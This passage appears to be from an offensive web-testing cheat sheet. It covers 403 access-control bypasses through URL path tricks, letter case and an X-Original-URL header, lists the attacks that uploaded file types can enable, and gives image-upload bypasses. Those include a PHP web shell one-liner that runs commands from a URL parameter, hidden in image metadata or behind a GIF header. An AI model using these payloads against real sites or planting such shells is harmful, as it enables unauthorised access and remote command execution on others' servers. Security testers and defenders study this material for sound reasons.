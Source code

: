 ### Try add dot (.) and slash (/) in the URL
```
http://target.com/admin => 403

----------------------------------------

http://target.com/admin/. => 200
http://target.com//admin// => 200
http://target.com/./admin/./ => 200
```
### Add "..;/" after the directory name
```
http://target.com/admin

-----------------------------

http://target.com/admin..;/
```
### Try to uppercase the alphabet in the url
```
http://target.com/admin

----------------------------

http://target.com/aDmIN
```
### Via Web Cache Poisoning
```
GET /anything HTTP/1.1
Host: victim.com
X­-Original-­URL: /admin
```

## File Upload

### What can you reach in case you uploaded?
```
ASP / ASPX / PHP5 / PHP / PHP3 --> WEBSHELL / RCE
SVG --> STORED XSS / SSRF / XXE
GIF --> STORED XSS / SSRF
CSV --> CSV INJECTION
XML --> XXE / STORED XSS / SSRF
AVI --> LFI / SSRF
HTML / JSON --> HTML INJECTION / XSS / OPEN REDIRECT
PNG / JPEG --> PIXEL FLOOD ATTACK (DOS)
ZIP --> RCE VIA LFI / DOS
PDF / PPTX --> SSRF / BLIND XXE/ STORED XSS
```
### Image Upload Bypass
```
- Change extension: .pHp3 or pHp3.jpg
- Modify mimetype: Content-type: image/jpeg
- Bypass getimagesize(): exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
- Add gif header: 
    . GIF89a;

    . JFIF; <?php echo "<pre>"; system($_GET['cmd']); ?>

    . GIF89 <reverse_shell|shell>

    . echo '<?php' >> shell.php.png
```